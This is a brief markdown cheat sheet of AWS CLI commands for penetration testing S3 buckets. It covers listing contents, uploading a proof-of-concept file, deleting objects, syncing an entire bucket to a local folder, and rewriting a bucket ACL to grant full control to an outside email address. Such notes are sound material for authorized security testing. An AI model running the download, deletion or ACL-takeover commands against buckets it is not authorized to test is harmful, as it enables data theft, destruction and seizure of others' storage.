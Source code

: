 ## Pentesting an s3 Bucket
### List bucket
``aws s3 ls s3://*bucket*``

### Copy to bucket
``aws s3 cp poc s3://*bucket*``

### Remove from bucket
aws s3 rm s3://*bucket*/test.txt

### Check bucket Size
``aws s3 ls --summarize --human-readable --recursive s3://*bucket*``

### Download bucket data
``aws s3 sync s3://*bucket* *local folder*``

### Miscelanious
``
aws s3api get-bucket-acl --bucket *bucket*

aws s3api get-object-acl --bucket  --key read-acp.txt 

aws s3api put-bucket-acl --bucket *bucket* --grant-full-control emailaddress=youremail@domain.tld && echo "success"
``
